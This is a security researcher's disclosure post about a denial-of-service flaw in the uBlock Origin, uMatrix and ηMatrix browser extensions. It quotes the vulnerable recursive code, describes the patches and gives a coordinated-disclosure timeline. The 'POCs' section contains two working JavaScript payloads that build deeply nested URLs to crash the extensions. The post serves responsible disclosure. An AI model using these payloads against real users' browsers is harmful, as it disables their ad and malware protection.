

= uBlock Origin (and uMatrix) DoS with strict-blocking filter and crafted URL

:fn-legacy-release: footnote:[A release of the uBO (Legacy) extension https://github.com/gorhill/uBlock-for-firefox-legacy/issues/310#issuecomment-876323719[is forthcoming].]

:fn-ubo-strict-mode-history: footnote:[Strict-blocking support was added to uBO in https://github.com/gorhill/uBlock/commit/a4b4bc98ffc267496d5dc47d9c4477de38bcd0c7[commit a4b4bc] and was based on https://github.com/uBlock-LLC/uBlock/issues/1013[discussion in the issue tracker]. Support for displaying parsed URL parameters was added later in https://github.com/gorhill/uBlock/commit/1d5a592b129b92ff6fad7cf01c4b412547893bfc[commit 1d5a59] and was based on a https://github.com/gorhill/uBlock/issues/691[feature request].]

:fn-umatrix-strict-mode-history: footnote:[uBO's support for displaying parsed URL parameters was ported to uMatrix in https://github.com/gorhill/uMatrix/commit/3f8168ce0bb7bb1837f9fedfc02aa09723ee3e25[commit 3f8168].]

:fn-ubo-patch: footnote:[The uBO vulnerability was fixed in https://github.com/gorhill/uBlock/commit/365b20e8cc27cd776ef3868b02ea739ba387356d[commit 365b20].]

:fn-ematrix-patch: footnote:[The ηMatrix vulnerability was fixed in https://gitlab.com/vannilla/ematrix/-/commit/42869ac0a738679b819bebca24298c601ed17f7e[commit 42869a].]

:fn-truecrypt-vulnerability: footnote:[I eventually migrated away from TrueCrypt after an https://googleprojectzero.blogspot.com/2015/10/windows-drivers-are-truely-tricky.html[unpatched vulnerability] was discovered.]

:fn-umatrix-archived: footnote:[gorhill https://github.com/uBlockOrigin/uMatrix-issues/issues/291#issuecomment-694988696[commented] about archiving the uMatrix repository in September 2020.]

:fn-umatrix-last-stable-release: footnote:[The last stable release of uMatrix, https://github.com/gorhill/uMatrix/releases/tag/1.4.0[1.4.0], was tagged on September 5, 2019.]

:fn-ubo-patch-release: footnote:[https://github.com/gorhill/uBlock/releases/tag/1.36.2[uBO 1.36.2] was tagged shortly after notification of the vulnerability.]

:fn-ematrix-patch-release: footnote:[https://gitlab.com/vannilla/ematrix/-/tags/v4.4.9[ηMatrix 4.4.9] was tagged shortly after notification of the vulnerability.]

== Overview

uBlock Origin (uBO) is a browser extension that blocks ads, security risks, privacy risks, and other web annoyances.
One of its features is "strict blocking," which prevents all connections--including direct navigations--to resources that match strict filters.

Strict filters are most often used to block sites that perform affiliate redirects, serve malware, or are otherwise undesirable to visit.
They are typically applied at the domain level (e.g., googlesyndication.com) and tend to resemble entries in hosts files, though they can also target more specific resources.

Strict blocking works by opening a warning page that provides information about the blocked resource, including its URL and the filter that prevented the resource from loading.
The warning page also displays query parameters from the blocked URL to help users bypass redirect tracking.

In earlier versions of uBO, these parameters were parsed recursively and added to the DOM without any depth checks, which could lead to extension crashes and memory exhaustion, depending on the browser and hardware.
uMatrix and ηMatrix, a fork of uMatrix compatible with Pale Moon, share similar code for displaying parsed URL parameters.

Users should upgrade to uBO 1.36.2 and ηMatrix 4.4.9 to receive fixes for this security vulnerability, which affects the default configurations of both extensions.
The uBO (Legacy) extension{fn-legacy-release} has a separate release process and is still vulnerable.

*Edit*: uMatrix 1.4.2 has been released with a fix for the vulnerability, though the uMatrix GitHub repository remains archived.

== Discussion

I discovered this bug while browsing the uBO codebase, which was a bit surprising given how basic the finding is.
Even more surprising is that this vulnerability seems to have existed in uBO since 2015{fn-ubo-strict-mode-history} (and in uMatrix since 2017{fn-umatrix-strict-mode-history}).
Perhaps the extension has not received as much attention from security researchers as I'd expected, given its popularity and its security- and privacy-related functionality?

=== Vulnerability

Here is the vulnerable code from uBO 1.36.0:

[source,javascript,linenums,start=147]
.https://github.com/gorhill/uBlock/blob/1.36.0/src/js/document-blocked.js#L147-L176[uBlock/src/js/document-blocked.js]
----
const renderParams = function(parentNode, rawURL) {
    const a = document.createElement('a');
    a.href = rawURL;
    if ( a.search.length === 0 ) { return false; }

    let pos = rawURL.indexOf('?');
    const li = liFromParam(
        vAPI.i18n('docblockedNoParamsPrompt'),
        rawURL.slice(0, pos)
    );
    parentNode.appendChild(li);

    const params = a.search.slice(1).split('&');
    for ( const param of params ) {
        let pos = param.indexOf('=');
        if ( pos === -1 ) {
            pos = param.length;
        }
        const name = safeDecodeURIComponent(param.slice(0, pos));
        const value = safeDecodeURIComponent(param.slice(pos + 1));
        const li = liFromParam(name, value);
        if ( reURL.test(value) ) {
            const ul = document.createElement('ul');
            renderParams(ul, value);                            <1>
            li.appendChild(ul);
        }
        parentNode.appendChild(li);
    }
    return true;
};
----

<1> `renderParams` is called recursively without taking into account the current nesting level.
This allows for repeated allocations that can cause resource exhaustion on memory-constrained hardware and extension crashes in Chrome.

For reference, here is what the warning page looks like in uBO 1.36.0 with some nested parameters displayed:

.uBO's strict-blocking warning page

=== Impact and scope

The strict-blocking warning page is only displayed when direct navigations are blocked.
This means that malicious hosts would need to induce users to trigger a navigation somehow, such as by clicking a link.
iframes are classified as sub-documents and do not trigger the warning page, which should make it harder for malicious hosts to exploit this vulnerability in the background.

When uBO (or uMatrix) crashes, users are left without filtering protection until the extension is reloaded.
This introduces the possibility of undesired traffic flowing to and from the user's browser.
I tested three browsers--Firefox, Chrome, and Pale Moon--and only noticed extension crashes in Chrome.
Other browsers that uBO supports, such as Opera and Edge, were not tested and may exhibit different behavior.

The vulnerability affects standard configurations of uBO, uMatrix, and ηMatrix because each extension enables filter lists that contain thousands of strict filters by default.

=== uBO and ηMatrix patches

uBO 1.36.2 restricts parameter-nesting to 2 levels to fix the bug{fn-ubo-patch}, and ηMatrix 4.4.9 restricts parameter-nesting to 3 levels to fix the same issue{fn-ematrix-patch}.

=== uMatrix maintenance

The uMatrix repository was archived in September 2020{fn-umatrix-archived}, and the last stable uMatrix release was in September 2019{fn-umatrix-last-stable-release}.
Until now, I've been treating uMatrix similarly to how I treated TrueCrypt after its development had stopped: unmaintained but still trustworthy in the absence of known vulnerabilities{fn-truecrypt-vulnerability}.
I may have to rethink my default stance for unmaintained security-related software going forward.

*Edit*: uMatrix 1.4.2 was tagged a few days after this post was published.
Users who disabled filter lists on the "Assets" tab in the uMatrix dashboard can re-enable the lists after upgrading.

== POCs

=== uBO

[source,javascript]
----
// bet365.com is used because uBO enables EasyList by default and because
// EasyList contains this entry: ||bet365.com/*?affiliate=$document

let repetitions = 8000;
if (navigator.userAgent.includes('Chrome')) {
    // Lower the number of repetitions in Chrome to prevent
    // a 'Maximum call stack size exceeded' exception
    repetitions = 3000;
}

const url = 'http://bet365.com/?affiliate=' + 'http://a?a='.repeat(repetitions);
window.location = url;

// Notice the browser eating CPU and memory. In Chrome, uBO eventually crashes
// and must be reloaded to work again.
----

=== uMatrix and ηMatrix

[source,javascript]
----
// googleadservices.com is used because uMatrix and ηMatrix enable Peter Lowe's
// tracking list by default and because the list contains this entry:
// 127.0.0.1 googleadservices.com

let repetitions = 8000;
if (navigator.userAgent.includes('Chrome')) {
    // Lower the number of repetitions in Chrome to prevent
    // a 'Maximum call stack size exceeded' exception
    repetitions = 3000;
} else if (navigator.userAgent.includes('PaleMoon')) {
    // Pale Moon can actually handle more repetitions than this,
    // but its memory usage becomes excessive (>10GB)
    repetitions = 18000;
}

const url = 'http://googleadservices.com/?a=' + 'http://a?a='.repeat(repetitions);
window.location = url;

// Notice the browser eating CPU and memory. In Chrome, uMatrix eventually crashes
// and must be reloaded to work again.
----

== Timeline

* 2021-07-05 - I emailed gorhill (the author of uBO and uMatrix) my findings
* 2021-07-06 - gorhill pushed a fix for uBO and tagged 1.36.2{fn-ubo-patch-release}
* 2021-07-06 - I emailed vannilla (the maintainer of ηMatrix) my findings
* 2021-07-06 - vannilla pushed a fix for ηMatrix and tagged 4.4.9{fn-ematrix-patch-release}
* 2021-07-06 - uBO 1.36.2 became available on the Chrome and Firefox add-ons sites
* 2021-07-07 - uBO 1.36.2 became available on the Opera add-ons site
* 2021-07-11 - ηMatrix 4.4.9 became available on the Pale Moon add-ons site after a beta-testing period
* 2021-07-14 - I published this post
* 2021-07-19 - gorhill pushed a fix for uMatrix and tagged 1.4.2

== Acknowledgments

Thanks to gorhill for fixing the issue in uBO, preparing a release, and creating software that has improved daily web-browsing for many users.

Thanks to vannilla for fixing the issue in ηMatrix and preparing an out-of-band release.

Thanks to nikrolls for submitting uBO 1.36.2 to the Edge add-ons site.

Thanks to JustOff for agreeing to prepare a future uBO (Legacy) release that addresses the vulnerability.

== References

* https://github.com/gorhill/uBlock/wiki/Strict-blocking/[Documentation for uBO's strict-blocking feature]
* https://github.com/gorhill/uMatrix/wiki/How-to-get-past-%22uMatrix-has-prevented-the-following-page-from-loading%22[Documentation for uMatrix's strict-blocking feature]
